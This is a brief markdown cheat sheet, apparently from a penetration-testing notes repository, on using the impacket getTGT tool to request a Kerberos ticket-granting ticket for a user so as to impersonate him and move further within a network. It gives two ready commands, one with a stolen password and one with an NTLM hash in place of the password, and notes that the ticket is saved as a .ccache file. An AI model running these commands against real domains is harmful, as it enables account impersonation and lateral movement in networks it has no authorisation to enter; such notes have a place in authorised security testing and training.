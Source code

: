 ## Use this impacket module to obtain a TGT of a user to impersonate him so that you can gain further access within a network.

#### 1) 

    impacket-getTGT DOMAIN.COM/USERNAME:PASSWORD -dc-ip DC_IP

(Request a TGT using valid credentials)

#### 2) 

    impacket-getTGT DOMAIN.COM/USERNAME -hashes NTLM_HASH -dc-ip DC_IP

(Request a TGT using an NTLM hash)

### The ticket is saved as a .ccache file.
